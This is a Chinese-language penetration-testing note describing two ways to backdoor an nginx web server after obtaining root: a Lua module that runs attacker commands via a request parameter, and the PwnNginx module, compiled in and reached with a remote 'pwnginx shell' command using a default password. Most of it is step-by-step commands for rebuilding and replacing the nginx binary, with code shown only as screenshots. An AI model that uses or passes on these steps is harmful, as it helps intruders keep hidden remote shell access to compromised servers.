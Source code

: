 #### Nginx Lua后门
	From:https://github.com/netxfly/nginx_lua_security
	https://github.com/Y4er/Y4er.com/blob/251d88d8a3cf21e9bafe15c43d7900ffeacfa7ea/content/post/nginx-lua-backdoor.md
	后门利用的前提是获取到root权限，nginx安装有lua模块。
	在nginx.conf中http节处添加，指定lua脚本位置，以及nginx启动时加载的脚本
![image](/assets/Pentest_Note/master/img/641.png)

	在lua目录/waf/中新建Init.lua，内容如下，require nginx表示加载nginx.lua中的模块。
![image](/assets/Pentest_Note/master/img/642.png)

	/waf/目录中新建nginx.lua实现执行命令，参数为waf。
![image](/assets/Pentest_Note/master/img/643.png)

	在nginx配置文件中加入location。
![image](/assets/Pentest_Note/master/img/644.png)

	效果：
![image](/assets/Pentest_Note/master/img/645.png)
#### PwnNginx
	From:https://github.com/t57root/pwnginx
	解压好后编译客户端
	>make
![image](/assets/Pentest_Note/master/img/646.png)

	编辑nginx的源文件/src/core/nginx.c找到configure arguments:在后面添加--prefix=/usr/local/nginx\n指定的是nginx安装的目录
![image](/assets/Pentest_Note/master/img/647.png)

	重新编译nginx添加后门模块
	>./configure --prefix=/usr/local/nginx/ --add-module=/tmp/pwnginx-master/module
![image](/assets/Pentest_Note/master/img/648.png)
	
	>make
![image](/assets/Pentest_Note/master/img/649.png)

	覆盖新的nginx到原nginx目录
	>cp -f objs/nginx /usr/local/nginx/sbin/nginx
![image](/assets/Pentest_Note/master/img/650.png)

	重启nginx
	>killall nginx&/usr/local/nginx/sbin/nginx
	连接
	>./pwnginx shell 目标机 nginx端口 密码
	默认密码是t57root，密码的配置文件在pwnginx-master\module\config.h文件夹中，可在重新编译nginx前修改密码
![image](/assets/Pentest_Note/master/img/651.png)
![image](/assets/Pentest_Note/master/img/652.png)

	此后门也可开启socks隧道